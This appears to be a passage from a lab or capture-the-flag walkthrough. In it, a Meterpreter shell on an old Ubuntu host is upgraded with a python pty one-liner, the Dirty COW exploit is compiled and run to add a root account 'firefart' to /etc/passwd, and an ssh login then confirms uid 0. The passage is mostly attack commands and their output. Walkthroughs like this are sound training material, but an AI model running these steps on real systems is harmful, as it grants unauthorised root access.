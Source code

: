 ```bash
meterpreter > shell
Process 4149 created.
Channel 65 created.
cd /tmp
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
www-data@ubuntu:/tmp$ ./dirty
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 12345678
Complete line:
firefart:fiMWHjmZgx9rM:0:0:pwned:/root:/bin/bash

mmap: 7fad37d9f000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '12345678'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '12345678'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

## login via `ssh` with new `root` user (`firefart:12345678`)
```bash
$ ssh firefart@192.168.150.87                                                                                          
The authenticity of host '192.168.150.87 (192.168.150.87)' can't be established.
ECDSA key fingerprint is SHA256:G8HZXu6SUrixt/obia/CUlTgdJK9JaFKXwulm6uUrbQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.150.87' (ECDSA) to the list of known hosts.
firefart@192.168.150.87's password: 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

firefart@ubuntu:~# whoami
firefart
firefart@ubuntu:~# id
uid=0(firefart) gid=0(root) groups=0(root)
```
